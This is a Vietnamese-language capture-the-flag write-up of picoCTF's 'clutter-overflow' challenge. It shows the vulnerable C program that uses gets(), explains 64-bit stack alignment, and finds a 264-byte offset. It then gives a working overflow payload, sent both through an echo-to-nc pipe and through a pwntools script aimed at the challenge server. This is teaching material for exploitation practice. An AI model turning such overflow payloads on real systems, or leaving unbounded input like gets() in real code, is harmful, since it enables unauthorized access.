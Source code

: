 # clutter-overflow

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Khi code có giá trị bằng GOAL (tức là 0xdeadbeef) thì flag sẽ được in ra
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack  trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 256 ký tự để ghi đè biến clutter, gọi là padding. Sau đó ta cần ghi đè giá trị của biến code thành 0xdeadbeef
- Nhưng vì đây là chương trình 64 bits nên sẽ có sự căn chỉnh stack (stack alignment System V ABI): stack phải được căn chỉnh 16-byte trước khi gọi một hàm khác, tức là giá trị của con trỏ ngăn xếp RSP (stack pointer) phải chia hết cho 16. Ở đây hàm win có hai biến số là clutter chiếm 256 byte và code chiếm 8 byte. Tổng cộng là 264 byte. Nhưng vì 264 không chia hết cho 16 nên thay vì chiếm 264 byte thì hai biến này chiếm 272 byte (0x110 trong hex):

![image.png](image%201.png)

- Vậy vấn đề là clutter chiếm bao nhiêu byte và code chiếm bao nhiêu byte? Vấn đề này sẽ tùy thuộc vào compiler. Có nhiều cách để align stack, compiler nghĩ cách nào tốt thì sẽ chọn cái đó

Ví dụ compiler có thể align như thế này

```
rbp
code
clutter
pad
```

Hoặc thế này (re-ordering variables tại vì nó thích các biến hay access ở gần rbp nhất có thể)

```
rbp
pad
code
clutter
```

Hoặc nếu ta không sử dụng biến code thì một số compiler có thể không alloc biến đó luôn.

Và thậm chí compiler có quyền không thực hiện stack alignment, bù lại performance sẽ bị tệ.

~ ~ Fun note: stack frame cũng chỉ là 1 quy ước để dễ hơn trong việc phân vùng hàm (dọn dẹp dễ hơn, dễ debug hơn). Compiler thích thì nó có quyền bỏ luôn stack frame hoặc tự nghĩ ra 1 cái khác để phân vùng =)))

- Vậy cách tốt nhất là dùng tool để tìm padding

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta dùng [zerosum0x0: Overflow Exploit Pattern Generator - Online Tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) để genarate ra 300 ký tự:

![image.png](image%202.png)

![image.png](image%203.png)

- Ta thu được biến code có giá trị 0x6a41396941386941. Dùng CyberChef để dịch ngược sang ký tự ta được ký tự Ai8Ai9Aj:

![image.png](image%204.png)

- Vậy offset (khoảng cách) ở đây là 264:

![image.png](image%205.png)

b) Bước 2: Viết payload

- Payload sẽ gồm 264 padding và giá trị 0xdeadbeef. Trong little-edian thì 0xdeadbeef được viết là \xef\xbe\xad\xde

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde"; cat) | nc mars.picoctf.net 31890
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('mars.picoctf.net', 31890)
payload = b'a'*264 + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Hiểu về cơ chế căn chỉnh stack trên hệ thống 64 bits. Những bài nâng cao sau này sẽ cần dùng kiến thức căn chỉnh stack nhiều hơn
